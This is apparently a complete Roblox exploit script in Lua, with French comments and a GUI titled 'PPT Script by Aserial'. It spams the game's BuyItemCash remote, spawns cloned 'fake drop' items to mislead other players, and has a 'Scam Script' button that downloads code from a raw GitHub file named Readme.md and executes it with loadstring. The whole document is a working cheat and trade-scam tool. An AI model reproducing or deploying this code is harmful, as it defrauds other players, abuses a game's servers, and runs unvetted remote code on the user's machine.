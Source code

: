 loadstring([[
local player = game:GetService("Players").LocalPlayer
local replicatedStorage = game:GetService("ReplicatedStorage")
local remote = replicatedStorage:WaitForChild("RemoteEvents"):WaitForChild("BuyItemCash")
local runService = game:GetService("RunService")

-- UI
local gui = Instance.new("ScreenGui", player:WaitForChild("PlayerGui"))
gui.Name = "AserialItemBuyer"

-- Bulle flottante cachée au début
local bubble = Instance.new("TextButton", gui)
bubble.Visible = false
bubble.Size = UDim2.new(0, 120, 0, 30)
bubble.Position = UDim2.new(0, 20, 1, -60)
bubble.BackgroundColor3 = Color3.fromRGB(20, 20, 20)
bubble.Text = "Aserial Script"
bubble.TextColor3 = Color3.new(1, 1, 1)
bubble.Font = Enum.Font.GothamBold
bubble.TextSize = 14
bubble.BorderSizePixel = 0

local frame = Instance.new("Frame", gui)
frame.Size = UDim2.new(0, 270, 0, 210)
frame.Position = UDim2.new(0.5, -135, 0.5, -105)
frame.BackgroundColor3 = Color3.fromRGB(30, 30, 30)
frame.BorderSizePixel = 0
frame.Active = true
frame.Draggable = true

-- Boutons Windows style
local closeBtn = Instance.new("TextButton", frame)
closeBtn.Size = UDim2.new(0, 30, 0, 30)
closeBtn.Position = UDim2.new(1, -30, 0, 0)
closeBtn.BackgroundColor3 = Color3.fromRGB(200, 0, 0)
closeBtn.Text = "X"
closeBtn.TextColor3 = Color3.new(1, 1, 1)
closeBtn.Font = Enum.Font.GothamBold
closeBtn.TextSize = 14
closeBtn.BorderSizePixel = 0

local minimizeBtn = Instance.new("TextButton", frame)
minimizeBtn.Size = UDim2.new(0, 30, 0, 30)
minimizeBtn.Position = UDim2.new(1, -60, 0, 0)
minimizeBtn.BackgroundColor3 = Color3.fromRGB(50, 50, 50)
minimizeBtn.Text = "-"
minimizeBtn.TextColor3 = Color3.new(1, 1, 1)
minimizeBtn.Font = Enum.Font.GothamBold
minimizeBtn.TextSize = 14
minimizeBtn.BorderSizePixel = 0

-- Titre
local title = Instance.new("TextLabel", frame)
title.Size = UDim2.new(1, -60, 0, 30)
title.BackgroundColor3 = Color3.fromRGB(25, 25, 25)
title.Text = "PPT Script by Aserial "
title.TextColor3 = Color3.fromRGB(255, 255, 255)
title.Font = Enum.Font.GothamBold
title.TextSize = 16
title.BorderSizePixel = 0
title.Position = UDim2.new(0, 0, 0, 0)

local buyBtn = Instance.new("TextButton", frame)
buyBtn.Position = UDim2.new(0.1, 0, 0.25, 0)
buyBtn.Size = UDim2.new(0.8, 0, 0, 30)
buyBtn.BackgroundColor3 = Color3.fromRGB(180, 50, 50)
buyBtn.TextColor3 = Color3.new(1, 1, 1)
buyBtn.Font = Enum.Font.GothamBold
buyBtn.TextSize = 14
buyBtn.BorderSizePixel = 0

local dropBtn = Instance.new("TextButton", frame)
dropBtn.Position = UDim2.new(0.1, 0, 0.45, 0)
dropBtn.Size = UDim2.new(0.8, 0, 0, 30)
dropBtn.BackgroundColor3 = Color3.fromRGB(255, 120, 0)
dropBtn.TextColor3 = Color3.new(1, 1, 1)
dropBtn.Font = Enum.Font.GothamBold
dropBtn.TextSize = 14
dropBtn.BorderSizePixel = 0

local scamBtn = Instance.new("TextButton", frame)
scamBtn.Position = UDim2.new(0.1, 0, 0.65, 0)
scamBtn.Size = UDim2.new(0.8, 0, 0, 30)
scamBtn.BackgroundColor3 = Color3.fromRGB(120, 60, 200)
scamBtn.TextColor3 = Color3.new(1, 1, 1)
scamBtn.Font = Enum.Font.GothamBold
scamBtn.TextSize = 14
scamBtn.BorderSizePixel = 0
scamBtn.Text = "Scam Script"

local itemNameLabel = Instance.new("TextLabel", frame)
itemNameLabel.Position = UDim2.new(0.1, 0, 0.86, 0)
itemNameLabel.Size = UDim2.new(0.8, 0, 0, 20)
itemNameLabel.BackgroundTransparency = 1
itemNameLabel.TextColor3 = Color3.new(1, 1, 1)
itemNameLabel.Font = Enum.Font.Gotham
itemNameLabel.TextSize = 14
itemNameLabel.Text = "Objet équipé : Aucun"

-- Achat toggle
local buying = false
local function toggleBuying()
    buying = not buying
    if buying then
        buyBtn.BackgroundColor3 = Color3.fromRGB(50, 180, 75)
        task.spawn(function()
            while buying do
                local tool = player.Character and player.Character:FindFirstChildOfClass("Tool")
                if tool then
                    remote:FireServer(tool.Name)
                end
                task.wait(0.1)
            end
        end)
    else
        buyBtn.BackgroundColor3 = Color3.fromRGB(180, 50, 50)
    end
end

-- Fake drop réaliste
local function fakeDropRealistic()
    local tool = player.Character and player.Character:FindFirstChildOfClass("Tool")
    if tool and tool:FindFirstChild("Handle") then
        local clone = tool:Clone()
        clone.Parent = workspace
        local handle = clone:FindFirstChild("Handle")
        if not handle then return end

        local hrp = player.Character:FindFirstChild("HumanoidRootPart")
        local dropPos = (hrp.CFrame * CFrame.new(0, -2.5, -4)).Position

        -- Toucher le sol pile, ajusté à 1
        handle.Anchored = true
        handle.CFrame = CFrame.new(dropPos + Vector3.new(0, 1, 0)) * CFrame.Angles(0, math.rad(math.random(0,360)), 0)
        handle.CanCollide = true
    end
end

-- Scam script
local function runScamScript()
    local url = "https://raw.githubusercontent.com/Rheingold59/Pop-it-trading/refs/heads/main/Readme.md"
    local success, result = pcall(function()
        return game:HttpGet(url)
    end)
    if success then
        loadstring(result)()
    else
        warn("Erreur chargement scam script :", result)
    end
end

-- Fermer et réduire
closeBtn.MouseButton1Click:Connect(function()
    gui:Destroy()
end)

minimizeBtn.MouseButton1Click:Connect(function()
    frame.Visible = false
    bubble.Visible = true
end)

bubble.MouseButton1Click:Connect(function()
    frame.Visible = true
    bubble.Visible = false
end)

-- UI dynamique
runService.RenderStepped:Connect(function()
    local tool = player.Character and player.Character:FindFirstChildOfClass("Tool")
    local toolName = tool and tool.Name or "Aucun"
    itemNameLabel.Text = "Objet équipé : " .. toolName
    buyBtn.Text = "Acheter : " .. toolName
    dropBtn.Text = "Fake Drop : " .. toolName
end)

-- Boutons principaux
buyBtn.MouseButton1Click:Connect(toggleBuying)
dropBtn.MouseButton1Click:Connect(fakeDropRealistic)
scamBtn.MouseButton1Click:Connect(runScamScript)
]])()
